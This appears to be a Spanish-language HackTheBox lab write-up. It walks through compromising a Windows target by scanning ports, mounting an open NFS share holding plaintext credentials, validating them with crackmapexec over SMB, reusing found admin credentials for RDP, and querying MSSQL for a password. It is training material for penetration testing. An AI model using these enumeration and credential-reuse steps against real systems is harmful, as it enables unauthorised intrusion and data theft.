# Práctica Final: Medio 🐧✌


1. Primero tenemos que saber que **puertos** de la máquina objetivo están expuestos.

```bash
nmap -p- -sS -Pn -n <IP> -oN ports
```



---

## NFS 📁

2. Vemos que el puerto **2049** está abierto y allí se ejecuta el **servicio NFS.** Vamos a listar los recursos compartidos.

```bash
showmount -e <IP>
```



- El **directorio `TechSupport`** es accesible por todos.

---

3. Creamos un directorio con cualquier nombre que deseemos y lo usamos para **“montarnos”** el **recurso compartido por NFS.**
    - En mi caso creé el directorio con el nombre ‘medium’

```bash
mount -t nfs <IP>:/TechSupport /mnt/<Nombre Del Directorio Creado> -o nolock
```

Si listamos el contenido de la **montura,** vemos que existen muchos ficheros.


Sin embargo, si nosotros listamos todos los archivos y vemos sus características notamos que uno **sobresale por encima de los demás. 👀**



- Un archivo tiene mayor peso que los demás, eso nos dice que existen información que puede ser relevante.

Si listamos el contenido del archivo



- Tenemos credenciales en texto claro de un posible usuario del sistema.

---

---

## Crackmapexec 🦑🟩

Ahora vamos a comprobar si las credenciales encontradas previamente pertenecen a un **usuario válido del sistema.**

```bash
crackmapexec smb <IP> -u 'alex' -p'lol123!mD' 
```


> El símbolo **[+]** nos indica que el usuario es válido.


Listaremos los **recursos compartidos** por SMB

```bash
crackmapexec smb --shares <IP> -u 'alex' -p'lol123!mD'
```



---

---

## SMB 🗃

Como vimos anteriormente tenemos **2 recursos** a los que podemos acceder: `devshare` y `Users`

1. Nos conectaremos a **`devshare`** 

```bash
smbclient \\\\<IP>\\devshare -U alex
```

2. Con **ls** listaremos los archivos y directorios que existan en **devshare**



3. Nos descargamos el **archivo ‘important.txt’**

```bash
get important.txt
```

4. Vemos el contenido del **archivo ‘important.txt’**



- **`sa`** se podría entender como **sysadmin.**

5. Validamos si las anteriores credenciales son válidas en el sistema, en este caso tendremos que cambiar el nombre de usuario de **`sa` → `administrator`**

```bash
crackmapexec smb <IP> -u 'administrator' -p'87N1ns@slls83' 
```



- **`(Pwn3d!)`** Esto nos dice que el usuario es el administrador del sistema.

---

---

## RDP 🖥

1. Nos loguearemos por **RDP** con **xfreerdp**

```bash
xfreerdp /v:10.129.202.41 /u:administrator /p:'87N1ns@slls83'
```



2. Vemos que existe **MSQL Server** así que lo inspeccionaremos. 🔍



3. Con una clausula **SQL** podemos obtener todos los registros, pero, en **HackTheBox** nos dicen que encontremos la clave del **usuario ‘HTB’**

```sql
USE accounts;
SELECT * FROM dbo.devsacc WHERE name = 'HTB';
```

